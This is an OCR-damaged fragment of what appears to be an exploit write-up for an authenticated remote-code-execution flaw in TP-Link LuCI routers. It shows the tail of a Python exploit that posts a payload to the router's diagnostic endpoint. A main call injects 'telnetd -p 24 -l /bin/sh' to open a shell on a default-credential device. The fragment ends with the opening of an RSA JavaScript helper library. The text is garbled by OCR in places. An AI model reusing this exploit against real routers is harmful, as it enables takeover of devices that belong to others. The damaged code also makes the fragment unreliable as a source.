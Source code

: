     }
    ret = s.post(uri + '/cgi-bin/luci/;stok={}/admin/diagnostic?form=diag'.format(stok), data=urllib.urlencode({"data":json.dumps(payload)}), headers=headers, timeout=5)

    #print ret.text
    print '[+] Finish RCE'
    print '--------------------------------------------------------------'
    return True

except:
    return False 
``` `if **name**==‘**main**’:

print ‘-----------Tplink LUCI diagnostic Authenticated RCE-----------’

print execute(‘192.168.1.1’, 80, ‘admin’, ‘admin’, ‘telnetd -p 24 -l /bin/sh’)` 
```

### RSA_Encryption_For_Tplink.js 文件

```
// Copyright (c) 2005  Tom Wu
// All Rights Reserved.
// See "LICENSE" for details.

// Basic JavaScript BN library - subset useful for RSA encryption.

// Bits per digit

// JavaScript engine analysis

var BI_RC = new Array();

var BI_RM = “0123456789abcdefghijklmnopqrstuvwxyz”;

var dbits;

var canary = 0xdeadbeefcafe;

var j_lm = ((canary&0xffffff)==0xefcafe);

var rng_psize = 256;

var rng_state;

var rng_pool;

var rng_pptr;

// Initialize the pool with junk if needed.

BigInteger.prototype.am = am2;

dbits = 30;

BigInteger.prototype.DB = dbits;

BigInteger.prototype.DM = ((1<<dbits)-1);

BigInteger.prototype.DV = (1<<dbits);

var BI_FP = 52;

BigInteger.prototype.FV = Math.pow(2,BI_FP);

```